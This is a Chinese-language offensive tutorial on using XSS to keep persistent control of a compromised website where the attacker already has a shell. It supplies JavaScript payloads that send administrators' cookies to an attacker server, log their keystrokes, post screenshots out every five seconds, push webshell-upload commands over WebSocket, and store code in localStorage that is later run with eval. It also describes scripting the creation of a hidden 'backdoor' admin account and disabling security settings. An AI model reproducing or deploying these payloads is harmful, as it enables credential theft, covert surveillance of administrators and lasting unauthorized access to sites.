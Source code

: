 ### 有 Shell 的情况下如何使用 XSS 实现对目标站的长久控制

**1. 利用 XSS 劫持管理员会话**

这是最直接也最常见的 XSS 攻击方式，但在这里，我们将其作为持久化控制的跳板

- **原理：** 当管理员访问存在 XSS 漏洞的页面时，我们的恶意 JavaScript 代码会执行，并窃取管理员的 `cookie`、`sessionStorage`、`localStorage` 等会话信息

- **实现：**

  - **WebShell 注入：** 在您已经获取的 Shell 中，找到一个管理员经常访问的、可写入的文件（例如，网站的公共 JS 文件、后台管理页面模板等）
  - **插入 Payload：** 在该文件中插入以下恶意 JavaScript 代码

  JavaScript

  ```javascript
  fetch('http://your-evil-server.com/log.php?cookie=' + document.cookie);
  ```

  - **获取会话：** 当管理员访问该页面时，他们的 `cookie` 就会被发送到您的服务器 `log.php`。您可以用这些 `cookie` 伪造会话，从而以管理员身份登录后台
  - **持久化：** 只要您能以管理员身份登录，就可以通过后台修改网站配置，上传新的 WebShell，或者进行其他持久化操作

这种方法的优点是简单直接，但缺点是如果管理员退出登录或会话过期，您需要重新等待下一次捕获

**2. 利用 XSS 注入后台管理页面后门**

这种方法更具隐蔽性和持久性，它旨在直接在后台管理系统中创建可控的“后门”

- **原理：** 很多后台管理系统都允许管理员自定义页面内容、插入自定义代码或编辑模板。我们可以利用 XSS，在管理员的浏览器中执行 JavaScript 代码，悄悄地修改这些配置
- **实现：**
  - **自动化操作：** 编写一个 JavaScript 脚本，该脚本可以模拟管理员的点击、表单填写和提交操作
  - **创建新用户：** 脚本可以模拟点击“添加用户”按钮，填写一个新的管理员账户信息（例如，用户名：`backdoor`，密码：`P@ssw0rd`），然后点击“保存”
  - **修改配置文件：** 脚本还可以模拟打开“系统设置”页面，修改网站的配置，例如允许文件上传、关闭安全限制等
  - **注入 Payload：** 将这些自动化操作的 JavaScript 代码注入到存在 XSS 的页面。当管理员访问时，脚本会在后台静默执行，完成上述操作

这种方法的优点是，即使管理员会话过期，我们创建的后门用户依然存在，可以随时用于登录

**3. 利用 XSS 劫持 WebSocket 连接**

如果目标网站使用了 WebSocket 来进行实时通信，这也是一个非常高明的攻击点

- **原理：** WebSocket 是一种在客户端和服务器之间建立持久连接的协议。我们可以利用 XSS，劫持 WebSocket 连接，向服务器发送恶意指令

- **实现：**

  - **注入 WebSocket 劫持代码：**

  JavaScript

  ```javascript
  // 假设原始 WebSocket 连接
  var ws = new WebSocket("wss://target.com/websocket");
  // 劫持
  ws.onmessage = function(event) {
      // 在这里可以拦截或修改 WebSocket 消息
      console.log("Received message from server: " + event.data);
  };
  // 发送恶意指令
  ws.onopen = function() {
      // 假设服务器允许通过 WebSocket 发送命令
      ws.send(JSON.stringify({ "command": "upload_shell", "path": "/uploads/backdoor.php" }));
  };
  ```

  - **持久化：** 通过劫持 WebSocket，我们可以向服务器发送管理员级别的指令，例如要求服务器上传一个新文件（我们的 WebShell）、执行系统命令、或修改数据库记录

这种方法需要对目标网站的 WebSocket 协议有深入了解，但其威力巨大，可以实现几乎实时的控制

**4. 利用 XSS 注入浏览器的持久化存储**

- **原理：** 浏览器中的 `localStorage` 和 `sessionStorage` 允许网页存储数据。我们可以利用 XSS，将我们的恶意代码或配置存储在这些地方，从而实现持久化

- **实现：**

  - **注入 Payload：**

  JavaScript

  ```javascript
  // 将恶意代码或配置存储到 localStorage
  localStorage.setItem('malicious_flag', 'true');
  localStorage.setItem('shell_url', 'http://your-evil-server.com/shell.php');
  ```

  - **持久化：** 当管理员再次访问该页面时，我们可以检查 `localStorage` 中的标志，如果存在，则执行后续的恶意操作（例如，加载远程 JS 文件）

**5. 键盘记录**

- **原理：** 键盘记录器利用 JavaScript 监听 DOM 事件，例如 `keydown` 或 `keypress`，当管理员在后台页面输入账号、密码或其他敏感信息时，脚本会捕获这些按键事件，并将输入的数据发送到攻击者的服务器

- **实现：**

  1. **注入 Payload：** 在您已经拥有 Shell 的前提下，找到一个管理员经常访问的、可写入的 JS 文件。在该文件中注入以下 JavaScript 代码：

  ```js
  // 恶意键盘记录脚本
  document.addEventListener('keydown', function(event) {
      var key = event.key;
      // 将按键数据发送到你的服务器
      fetch('http://your-evil-server.com/log.php?key=' + encodeURIComponent(key));
  });
  ```

  1. **实时数据捕获：** 当管理员在后台登录表单中输入用户名和密码时，每个按键都会被记录下来，并通过 `fetch` 请求发送到您的服务器
  2. **持久化：** 这种方法非常隐蔽，因为脚本在后台静默运行。一旦管理员登录，您不仅能获取他们的账号密码，还能实时监控他们在后台进行的任何操作，例如修改文章、上传文件等

**6. 浏览器屏幕截图**

- **原理：** 利用 HTML5 的 `Canvas` 和 `toDataURL()` 方法，我们可以截取 DOM 元素（例如整个页面）的内容，将其转换为图片数据，并发送给攻击者

- **实现：**

  1. **注入 Payload：** 在可写入的 JS 文件中注入以下代码：

  ```js
  // 定时截图并发送
  setInterval(function() {
      html2canvas(document.body).then(function(canvas) {
          // 将 canvas 内容转换为 base64 格式
          var imageData = canvas.toDataURL("image/png");
          // 将图片数据发送到你的服务器
          fetch('http://your-evil-server.com/screenshot.php', {
              method: 'POST',
              body: JSON.stringify({ image: imageData })
          });
      });
  }, 5000); // 每隔5秒截图一次
  ```

  1. **依赖库：** 需要注意的是，这个方法通常依赖第三方库，例如 `html2canvas.js`。您需要将该库的 JS 文件也注入到目标网站中
  2. **实时监控：** 这种方法可以直观地看到管理员在后台的操作界面，包括他们正在编辑的内容、正在上传的文件等，为您的后续攻击提供丰富的上下文信息。

**7. 利用 XSS 注入持久化 localStorage 后门**

这是一种更具隐蔽性的持久化方法，它不依赖于修改网站文件，而是利用浏览器的本地存储功能

- **原理：** 利用 `localStorage` 将恶意代码片段持久化存储在管理员的浏览器中

- **实现：**

  1. **一次性注入：** 找到一个XSS漏洞点（例如，一个输入框）。输入以下Payload：

  ```html
  <script>
    localStorage.setItem('backdoor', 'your_malicious_javascript_code');
  </script>
  ```

  1. **主页面加载器：** 然后在网站的主 JS 文件中，注入一个检查 `localStorage` 的代码：

  ```js
  // 检查是否存在后门代码
  var backdoorCode = localStorage.getItem('backdoor');
  if (backdoorCode) {
      eval(backdoorCode); // 执行后门代码
  }
  ```

  1. **持久化：** 只要管理员不清空浏览器缓存，即使您修改的输入框被清理了，后门代码依然会存在于 `localStorage` 中，并在每次页面加载时被执行